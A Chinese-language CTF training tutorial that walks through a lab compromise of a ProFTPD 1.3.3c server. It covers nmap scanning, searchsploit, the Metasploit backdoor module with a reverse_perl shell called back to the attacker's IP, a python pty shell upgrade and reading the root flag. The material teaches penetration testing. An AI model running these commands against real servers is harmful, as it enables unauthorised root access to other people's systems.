








# CTF最强战队蓝莲花内部培训教程：P11：FTP服务后门利用实战 🚩

在本节课中，我们将学习如何通过探测和分析FTP服务，利用其软件版本中的已知后门漏洞，获取目标主机的root权限并读取flag值。整个过程将涵盖信息收集、漏洞搜索、利用框架操作和权限维持。

---

## FTP协议简介 📁

FTP是文件传输协议的英文简称，中文称为文件协议。它用于在Internet上控制文件的双向传输，同时也是一个应用程序。基于不同操作系统的FTP服务应用程序都遵守同一种协议来传输文件。

在FTP使用中，用户常遇到两个概念：**下载**和**上传**。
*   **下载**文件是指从远程主机拷贝文件到自己的计算机。
*   **上传**文件是指将文件从自己的计算机拷贝到远程主机。

用互联网术语来说，用户可以通过客户端程序从远程主机上传或下载文件。FTP本质上就是规定文件传输方式的一套规则。

---

## 实验环境搭建 🖥️

上一节我们介绍了FTP的基本概念，本节中我们来看看本次实战演练的实验环境配置。



*   **攻击机**：Kali Linux，IP地址为 `192.168.1.105`。
*   **靶机**：Ubuntu系统，IP地址为 `192.168.1.100`。

我们的目标是获取靶机上的flag值，这需要先获得对靶机的控制权限。

---

## 信息收集：服务探测 🔍

获得实验环境后，我们的第一步是探测靶机上开放的服务及其版本信息。这里我们使用Nmap工具。

以下是使用Nmap进行服务版本扫描的命令：
```bash
nmap -sV 192.168.1.100
```
执行该命令后，Nmap会向靶机发送探测数据包，并根据返回的信息分析并输出开放的服务及版本。

除了基础版本扫描，我们还可以进行更全面的探测，获取操作系统、路由等更多信息。

以下是使用Nmap进行快速全面扫描的命令：
```bash
nmap -T4 -A -v 192.168.1.100
```
参数说明：
*   `-T4`：设置扫描速度为最快。
*   `-A`：启用操作系统检测、版本检测、脚本扫描和路由追踪。
*   `-v`：显示详细输出信息。

扫描完成后，我们获得了靶机的详细情报。

---

## 漏洞分析与利用 🛠️

在完成信息收集后，我们需要对扫描结果进行分析，挖掘可利用的信息。从Nmap结果中，我们发现靶机开放了21（FTP）、22（SSH）、80（HTTP）端口。本次重点针对21端口的FTP服务。

分析显示，FTP服务软件为 **ProFTPD**，并显示了具体版本号。我们的下一步是查找该特定版本是否存在已知漏洞。



我们使用 `searchsploit` 工具在漏洞数据库中进行搜索：
```bash
searchsploit ProFTPD 1.3.3c
```
搜索结果显示，该版本存在一个“源代码后门”，可导致远程代码执行，并且该漏洞已被集成到Metasploit渗透测试框架中。为了更方便地利用，我们决定使用Metasploit。

---

## 使用Metasploit进行渗透 💣

上一节我们确定了可利用的漏洞，本节我们使用Metasploit框架来实施攻击。



首先，启动Metasploit控制台：
```bash
msfconsole
```
启动后，在msf6提示符下搜索对应的漏洞利用模块：
```bash
search ProFTPD 1.3.3c
```
找到对应的 `exploit` 模块后，使用 `use` 命令加载它：
```bash
use exploit/unix/ftp/proftpd_133c_backdoor
```
接着，查看该模块可用的攻击载荷：
```bash
show payloads
```
我们选择一个反向Shell载荷，例如 `cmd/unix/reverse_perl`，并设置它：
```bash
set payload cmd/unix/reverse_perl
```
现在，需要配置攻击所需的参数。使用 `show options` 查看需要设置的选项：
```bash
show options
```
需要设置的两个关键参数是：
*   `RHOSTS`：靶机IP地址。
*   `LHOST`：监听IP地址（即攻击机Kali的IP）。

设置参数：
```bash
set RHOSTS 192.168.1.100
set LHOST 192.168.1.105
```
再次使用 `show options` 确认参数设置无误。最后，执行攻击：
```bash
exploit
```
命令执行后，Metasploit会发送利用代码。成功后，我们会获得一个返回到攻击机的Shell会话，并且直接具有 **root** 权限（可通过 `id` 命令验证）。

---





## 权限维持与终端优化 ⚙️

成功获取Shell后，你可能会发现返回的Shell界面功能不完整（例如无法使用Tab补全、方向键等）。为了获得一个功能完整的终端，我们需要进行升级。



以下是使用Python的PTY模块生成一个完全交互式Bash Shell的方法：
```python
python -c "import pty; pty.spawn('/bin/bash')"
```
执行上述命令后，你将获得一个更稳定、功能更全的Shell环境，方便后续操作。

---

## 寻找并提交Flag 🏁

在CTF比赛中，获得root权限后的最终目标是找到并提交flag。通常，flag文件会存放在系统的根目录或 `/root` 目录下。



首先，确认当前目录并列出文件：
```bash
pwd
ls -alh
```
切换到 `/root` 目录并寻找flag文件：
```bash
cd /root
ls -alh
```
发现flag文件后，使用 `cat` 命令读取其内容：
```bash
cat flag
```
记录下显示的flag值，即可在比赛平台提交得分。

---



## 课程总结 📝

本节课我们一起学习了针对FTP服务的完整渗透流程：
1.  **信息收集**：使用Nmap扫描目标，识别开放服务及版本。
2.  **漏洞分析**：利用 `searchsploit` 查找特定软件版本的公开漏洞。
3.  **漏洞利用**：使用Metasploit框架加载对应模块，配置参数并执行攻击，获取反向Shell。
4.  **权限提升与维持**：获得的Shell直接具有root权限，并通过Python优化了终端交互性。
5.  **获取Flag**：在目标文件系统中定位并读取flag文件。

关键要点：对于开放FTP、SSH、Telnet等服务的系统，应优先尝试检查其服务版本的公开漏洞。利用现成的漏洞利用代码（EXP）通常能快速获取主机权限。在渗透测试中，每一个开放端口、每一项服务及其版本信息，都可能成为突破口，不要局限于Web攻击面。


---